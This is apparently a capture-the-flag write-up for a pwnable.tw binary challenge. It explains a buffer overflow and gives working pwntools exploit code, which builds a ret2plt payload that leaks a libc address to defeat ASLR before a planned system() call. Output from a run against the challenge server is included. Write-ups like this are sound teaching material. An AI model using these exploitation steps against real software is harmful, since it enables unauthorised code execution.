 Leaving the final bullet_desc in such state:

![](img/bullet_desc2.png)

## Exploit
That's amazing. You know why? Well, we now have buffer overflow as we can overflow a buffer by 47 bytes with power_up function. The DEP protection is enabled so we will want to invoke system function from libc. There is one more thing! To return from main function we have to kill the wolf (the return action will only call exit). But this is easy this time as our power will now be some huge number (for ex. if we now call power_up(b'CCC') our power will become: 0x43434304) and it should take like 2-4 seconds to kill the beast!

## Leak libc_base
Unfortunetely we will have to bypass ASLR first, meaning we need to leak some libc address. This can be by using standard technique: calling plt@puts with got@puts as an argument.
This is easy, havning buffer overflow vulnerability we will call power_up with such payload:

```python
payload = b'C' * 7 + p32(e.plt['puts']) + p32(e.symbols['main']) + p32(e.got['puts'])
```

The 'CCCCCCC' is some junk to reach return address. Then we overwrite return address with plt@puts providing a got@puts address as argument. At the end we want to jump back to main as we will want to repeat the whole operation but this time we will call system function.
Let's check if we managed to leak libc_base:

```python
# Leak libc phrase
log.info("Started leak libc phrase...")
create_bullet(b'A' * (BULLET_DESC_SZ - 1))
power_up(b'B')

payload = b'C' * 7 + p32(e.plt['puts']) + p32(e.symbols['main']) + p32(e.got['puts'])
power_up(payload)

kill_beast()
puts = u32(p.recvline()[:-1])
libc_base = puts - libc.symbols['puts']
log.info("[x] Leaked libc_base: " + hex(libc_base))
```

Let's try it:
```bash
$ python exp.py remote
[+] Opening connection to chall.pwnable.tw on port 10103: Done
[*] Started leak libc phrase...
[*] [x] Leaked libc_base: 0xf75e3000
```

